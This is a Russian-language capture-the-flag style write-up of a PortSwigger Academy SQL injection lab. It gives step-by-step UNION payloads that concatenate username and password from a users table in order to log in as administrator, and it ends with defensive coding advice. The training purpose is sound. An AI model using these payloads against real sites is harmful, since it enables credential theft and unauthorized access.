






## Lab: SQL injection UNION attack, retrieving multiple values in a single column

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-19 

---

## TL;DR
Параметр `category` уязвим к SQL инъекции. Оригинальный запрос
возвращает 2 столбца, из которых текстовым является только второй.
Через конкатенацию `||'~'||` оба значения (`username` и `password`)
упакованы в один текстовый столбец. Выполнен вход под `administrator`.

---

## Эксплуатация

### Шаг 1 — Подтверждение SQL инъекции

Добавила одинарную кавычку к параметру `category`:

```
GET /filter?category=Gifts'
```

Сервер вернул **500** — инъекция подтверждена.

```sql
SELECT * FROM products WHERE category='Gifts''
--                                           ^ синтаксическая ошибка
```



### Шаг 2 — Исправление синтаксиса

```
GET /filter?category=Gifts''--
```

Сервер вернул **200** — синтаксис корректен.


### Шаг 3 — Определение количества столбцов

Перебором NULL значений:

```
'+UNION+SELECT+NULL--      → 500 (1 ≠ 2)
'+UNION+SELECT+NULL,NULL-- → 200 ✓ (2 = 2)
```

Оригинальный запрос возвращает **2 столбца**.



### Шаг 4 — Определение текстового столбца

Проверила первый столбец:

```
'+UNION+SELECT+'abc',NULL-- → 500
```

Первый столбец не текстовый — ошибка типов.



Проверила второй столбец:

```
'+UNION+SELECT+NULL,'abc'-- → 200 ✓
```

**Второй столбец текстовый** — в ответе видно значение `abc`.

```sql
SELECT col1, col2 FROM products WHERE category=''
UNION SELECT NULL, 'abc'--'
-- Успех: col2 принимает текстовые данные
```



### Шаг 5 — Извлечение данных через конкатенацию

Поскольку текстовый столбец только один — объединила `username`
и `password` через конкатенацию с разделителем `~`:

```
GET /filter?category='+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

В ответе появились все записи из таблицы `users` в формате:

```
administrator~s3cur3p4ssw0rd
wiener~peter
carlos~montoya
```

```sql
SELECT col1, col2 FROM products WHERE category=''
UNION SELECT NULL, username||'~'||password FROM users--'

-- || — оператор конкатенации в PostgreSQL/Oracle
-- '~' — разделитель между username и password
```



### Шаг 6 — Вход под учётной записью administrator

Из ответа извлекла пароль `administrator` — всё что стоит
после символа `~` в строке начинающейся с `administrator`.

Перешла на страницу входа и авторизовалась:

```
Username: administrator
Password: [пароль из ответа]
```



---

## Итог

Полная последовательность шагов:

```
'                              → 500 (инъекция подтверждена)
''--                           → 200 (синтаксис исправлен)
UNION NULL                     → 500 (1 ≠ 2)
UNION NULL,NULL                → 200 (2 = 2, количество найдено)
UNION 'abc',NULL               → 500 (столбец 1 — не текст)
UNION NULL,'abc'               → 200 (столбец 2 — текст ✓)
UNION NULL,username||'~'||password
FROM users                     → 200 ✓ (данные извлечены)
```

### Почему конкатенация а не два отдельных запроса

```
Есть только 1 текстовый столбец.
username — строка → нужен текстовый столбец
password — строка → тоже нужен текстовый столбец
Но столбец один → оба значения упаковываем в одно поле

Без конкатенации пришлось бы делать 2 запроса:
UNION SELECT NULL, username FROM users  → получаем только имена
UNION SELECT NULL, password FROM users  → получаем только пароли
И сопоставлять вручную — ненадёжно при большом числе пользователей

С конкатенацией — один запрос, всё сразу
```

### Синтаксис конкатенации в разных БД

```sql
PostgreSQL / Oracle:   username || '~' || password
MySQL:                 CONCAT(username, '~', password)
MSSQL:                 username + '~' + password
```

В этой лабе используется `||` — значит база данных PostgreSQL или Oracle.

---

## Защита

```python
# УЯЗВИМО:
query = f"SELECT * FROM products WHERE category='{category}'"
cursor.execute(query)

# БЕЗОПАСНО — параметризованный запрос:
query = "SELECT * FROM products WHERE category=?"
cursor.execute(query, (category,))

# БЕЗОПАСНО — SQLAlchemy ORM:
products = db.session.query(Product).filter(
    Product.category == category
).all()
```

Дополнительно:
- Хранить пароли в виде хэшей (bcrypt, argon2) —
  конкатенация покажет только хэш а не открытый пароль
- Минимальные привилегии пользователя БД —
  пользователь приложения не должен читать таблицу `users`
  если это не требуется для его функций
- Не показывать результаты запросов напрямую в ответе —
  отображать только необходимые поля